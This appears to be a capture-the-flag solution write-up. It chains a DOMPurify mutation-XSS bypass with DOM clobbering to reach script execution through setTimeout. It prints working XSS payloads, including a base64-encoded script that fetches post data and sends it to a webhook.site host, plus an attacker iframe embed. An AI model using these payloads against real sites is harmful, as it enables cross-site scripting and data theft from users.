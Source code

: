 # Solution

You can exploit DOM clobbering to control the content of the `redirect_error_image` variable if it's used before `script.js` is loaded asynchronously.

You need to bypass the custom sanitification to allow an `a` tag with the `id` attribute.

This attack allows to bypass the custom sanitification https://research.securitum.com/dompurify-bypass-using-mxss/.

The `redirect_error_page` variable is used in the setTimeout called in the `onerror` handler of the image.

setTimeout evals the first input as js and give us XSS.

An example of payload is the following one

`<svg></p><style><a class="</style><a href=mailto:'a';alert(1) id=redirect_error_image >">`


To trigger this payload the `onerror` handler needs to be called before loading `script.js`.

It can be done by failing fast the image loading with an url like `http://localhost` and avoiding to use the cached version of `script.js`.

To avoid hitting the cache the page can be loaded in an iframe inside a document from a different origin.

# Payloads

The malicious post is created with `http://localhost` as url and the following description

`<svg></p><style><a class="</style><a href=mailto:'a';eval(atob('ZmV0Y2goJy9wb3N0JykudGhlbihyPT5yLnRleHQoKSkudGhlbih0PT57eD0vcG9zdFwvW1x3LV0qL2cuZXhlYyh0KTtmZXRjaCgnaHR0cHM6Ly93ZWJob29rLnNpdGUvZDQ4NWYxM2EtZmQ4Yi00Y2ZkLWFkMTMtNjNkOWIwZjFmNWVmLycreFswXSl9KS8v')) id=redirect_error_image >">`


Then, the post is embedded by a server controlled by the attacker

`<iframe src="https://lesn.m0lecon.fans/post/1bd9b0a4-36cf-468f-8dbc-c0a2e8d1303d"></iframe>`
